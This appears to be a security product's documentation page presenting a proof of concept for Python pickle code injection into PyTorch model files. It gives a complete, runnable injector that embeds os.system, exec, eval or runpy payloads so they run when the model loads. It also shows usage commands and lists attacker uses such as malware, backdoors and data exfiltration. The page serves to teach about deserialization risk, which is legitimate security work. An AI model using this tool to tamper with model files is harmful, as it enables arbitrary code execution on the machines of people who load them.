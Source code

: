 ```yaml
---
title: ModelArmor Pickle Code Injection
description: Learn how Python's pickle module can be exploited for arbitrary code execution and how to secure applications against such threats.
---
```


# **ModelArmor Use Case: Pickle Code Injection PoC**

The **Pickle Code Injection Proof of Concept (PoC)** demonstrates the security vulnerabilities in Python's `pickle` module, which can be exploited to execute arbitrary code during deserialization. This method is inherently insecure because it allows execution of arbitrary functions without restrictions or security checks.

## Core Code Overview

**Custom Pickle Injector:**

```python
import os, argparse, pickle, struct, shutil
from pathlib import Path
import torch

class PickleInject:
    def __init__(self, inj_objs, first=True):
        self.inj_objs = inj_objs
        self.first = first

    class _Pickler(pickle._Pickler):
        def __init__(self, file, protocol, inj_objs, first=True):
            super().__init__(file, protocol)
            self.inj_objs = inj_objs
            self.first = first

        def dump(self, obj):
            if self.proto >= 2:
                self.write(pickle.PROTO + struct.pack("<B", self.proto))
            if self.first:
                for inj_obj in self.inj_objs:
                    self.save(inj_obj)
            self.save(obj)
            if not self.first:
                for inj_obj in self.inj_objs:
                    self.save(inj_obj)
            self.write(pickle.STOP)

    def Pickler(self, file, protocol):
        return self._Pickler(file, protocol, self.inj_objs)

    class _PickleInject:
        def __init__(self, args, command=None):
            self.command = command
            self.args = args

        def __reduce__(self):
            return self.command, (self.args,)

    class System(_PickleInject):
        def __init__(self, args):
            super().__init__(args, command=os.system)

    class Exec(_PickleInject):
        def __init__(self, args):
            super().__init__(args, command=exec)

    class Eval(_PickleInject):
        def __init__(self, args):
            super().__init__(args, command=eval)

    class RunPy(_PickleInject):
        def __init__(self, args):
            import runpy
            super().__init__(args, command=runpy._run_code)
            def __reduce__(self):
                return self.command, (self.args, {})

# Parse Arguments
parser = argparse.ArgumentParser(description="PyTorch Pickle Inject")
parser.add_argument("model", type=Path)
parser.add_argument("command", choices=["system", "exec", "eval", "runpy"])
parser.add_argument("args")
args = parser.parse_args()

# Payload construction
command_args = args.args
if os.path.isfile(command_args):
    with open(command_args, "r") as in_file:
        command_args = in_file.read()

if args.command == "system":
    payload = PickleInject.System(command_args)
elif args.command == "exec":
    payload = PickleInject.Exec(command_args)
elif args.command == "eval":
    payload = PickleInject.Eval(command_args)
elif args.command == "runpy":
    payload = PickleInject.RunPy(command_args)

# Save the injected payload
backup_path = f"{args.model}.bak"
shutil.copyfile(args.model, backup_path)
torch.save(torch.load(args.model), f=args.model, pickle_module=PickleInject([payload]))
```

## Example Exploits

1. **Print Injection:**

   ```bash
   python torch_pickle_inject.py model.pth exec "print('hello')"
   ```

2. **Install Packages:**

   ```bash
   python torch_pickle_inject.py model.pth system "pip install numpy"
   ```

3. **Adversarial Command Execution:** Upon loading the tampered model:

   ```bash
   python main.py
   ```

   Output:

   - Installs the package or executes the payload.
   - Alters model behavior: changes predictions, losses, etc.

## Attacker Use Cases

1. **Spreading Malware:** The injected code can download and install malware on the target machine, which can then be used to infect other systems in the network or create a botnet.
2. **Backdoor Installation:** An attacker can use pickle injection to install a backdoor that allows persistent access to the system, even if the original vulnerability is patched.
3. **Data Exfiltration:** An attacker can use pickle injection to read sensitive files or data from the system and send it to a remote server. This can include configuration files, database credentials, or any other sensitive information stored on the machine.

## Key Risks

The `pickle` module is inherently insecure for handling untrusted input due to its ability to execute arbitrary code.

Ref: <https://hiddenlayer.com/research/weaponizing-machine-learning-models-with-ransomware/#Pickle-Code-Injection-POC>

---

